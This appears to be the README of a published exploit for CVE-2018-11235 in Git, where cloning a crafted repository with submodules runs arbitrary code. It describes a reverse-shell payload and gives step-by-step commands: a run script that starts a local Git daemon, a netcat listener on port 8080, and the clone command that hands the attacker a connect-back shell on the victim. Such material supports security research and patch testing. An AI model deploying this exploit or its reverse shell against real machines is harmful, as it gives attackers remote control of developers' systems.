

Clone & Pwn
===========

**Original:**  https://github.com/Rogdham/CVE-2018-11235  
**Author:**    Alejandro Caceres &lt;acaceres@hyperiongray.com&gt;,
               Mark E. Haase &lt;mhaase@hyperiongray.com&gt;  
**Date:**      2018-06-04  
**CVE:**       [CVE-2018-11235](https://nvd.nist.gov/vuln/detail/CVE-2018-11235)  
**Advisory:**  https://staaldraad.github.io/post/2018-06-03-cve-2018-11235-git-rce/  
**Tested on:** Ubuntu 18.04, Git 2.17.0, Python 2.7

Demo
----

Discussion
----------

CVE-2018-11235, which we call "Clone & Pwn", creates a malicious Git repository
that exploits a bug in the Git client. When the repo is cloned using the
`--recurse-submodules` flag, arbitrary code is executed on vulnerable versions 
of Git.

We have adapted an example exploit [written by
Rogdham](https://github.com/Rogdham/CVE-2018-11235) to include a simple Python
reverse shell payload. Rogdham's exploit is expected to be published to a Git
server, but the major Git hosts like GitHub and GitLab will filter out malicious
repositories. Therefore, this exploit runs a Git daemon locally to simplify
deployment. By default, the payload connects back to `127.0.0.1:8080`, but you
can modify the `payload.py` settings `CONNECT_BACK_HOST` and `CONNECT_BACK_PORT`
to connect somewhere else.

On the server, run the exploit script:

    $ bash run.sh
    [*] Creating repository...
    [*] Executing git daemon...
    [*] Start your netcat listener, then run this on the client:

        $ git clone --recurse-submodules git://<SERVER_IP>/repo

Also on the server, run a netcat listener:

    $ nc -nvlp 8080
    listening on [any] 8080 ...

Then on a vulnerable client machine, run:

    $ git clone --recurse-submodules git://<SERVER_IP>/repo

You should receive a connect back shell in your netcat listener.
